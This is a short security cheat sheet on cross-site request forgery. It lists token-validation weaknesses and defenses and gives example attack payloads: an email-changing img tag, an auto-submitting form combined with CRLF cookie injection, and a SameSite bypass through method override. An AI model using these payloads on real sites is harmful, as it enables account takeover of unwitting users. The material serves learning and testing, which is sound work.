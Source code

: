 # 🟩 Cross-site request forgery (CSRF)

Allows an attacker to induce users to perform actions that they do not intend to perform

## <mark style="color:red;">Deliver a CSRF Exploit</mark>

### <mark style="color:orange;">**Reflected XSS**</mark>

Attacker will place the malicious HTML onto a web site that they control

### <mark style="color:orange;">GET method</mark>

**Example**

```html
<img src="https://vulnerable-website.com/email/change?email=attacker@evil-user.net"> 
```

## <mark style="color:red;">Common CSRF vulnerabilities</mark>

* Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.
* Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
* Some applications do not validate that the token belongs to the same session as the user who is making the request.
* Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions.\
  <mark style="color:green;">**Example**</mark>

```html
<html>
  <body>
    <form action="https://vul-site.com/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;yahoo&#46;com" />
      <input type="hidden" name="csrf" value="jyLqs10iSdsMQz1S5jqucMF55ZyDRyQL" />
      <input type="submit" value="Submit request" />
    </form>
     <img src="http://vul-site.com/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"> 
  </body>
</html>
```

* Some applications do not maintain any server-side record of tokens that have been issued.
* Cookie **SasmeSite=Lax** bypass via method override. Change **POST** method to **Get** with **"\_method"** parameter. Example\
  &#x20;`/change-email?email=attacker@attack.net&_method=POST`

## <mark style="color:red;">Defenses</mark>

* [ ] CSRF tokens
* [ ] HTTP cookie header (csrf-key)
* [ ] Captcha
* [ ] HTTP Referer header

